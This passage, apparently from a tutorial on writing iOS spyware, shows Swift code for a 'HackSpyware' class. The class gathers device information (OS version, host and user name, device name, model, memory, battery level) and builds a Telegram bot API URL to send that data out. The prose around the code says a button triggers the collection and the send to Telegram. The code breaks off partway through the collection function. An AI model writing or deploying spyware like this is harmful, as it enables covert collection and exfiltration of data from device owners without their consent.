 As you can see, this simple interface includes a button that triggers the spyware to collect the system's information and send it to Telegram:      

![malware](./images/16/2025-05-19_23-52_1.png){width="80%"}       

Then to gather system information like the iOS version, device name, battery level, and memory usage, we need to use the built-in `ProcessInfo` and `UIDevice` APIs:    

```swift
import Foundation
import UIKit

public class HackSpyware {
    public static let shared = HackSpyware(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }

    // Collect system information
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

```